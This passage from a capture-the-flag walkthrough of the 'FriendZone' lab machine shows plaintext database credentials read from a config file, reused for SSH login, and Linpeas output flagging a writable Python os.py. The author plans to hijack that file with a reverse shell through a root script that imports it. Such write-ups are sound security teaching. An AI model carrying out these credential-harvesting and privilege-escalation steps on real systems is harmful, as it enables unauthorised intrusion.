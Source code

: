 ```
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
```

However, we recall that we have a open SSH port on port 22. Let us try to authenticate to the SSH service using the credentials that we have obtained earlier.

```
┌──(kali㉿kali)-[~]
└─$ ssh friend@10.10.10.123     
friend@10.10.10.123's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ 
```

Using Linpeas, we realize that the os.py file in /usr/lib/python2.7/os.py is writable. This means that we can potentially modify the file to create a reverse shell.

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                         
/usr/lib/python2.7
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
```

We are also able to find a file /opt/server_admin/reporter.py that imports the os module from /usr/lib/python2.7. Since the os module is imported and /usr/lib/python2.7/os.py is writable, we can modify the /usr/lib/python2.7/os.py to introduce a reverse shell.

```python
friend@FriendZone:/opt/server_admin$ cat reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
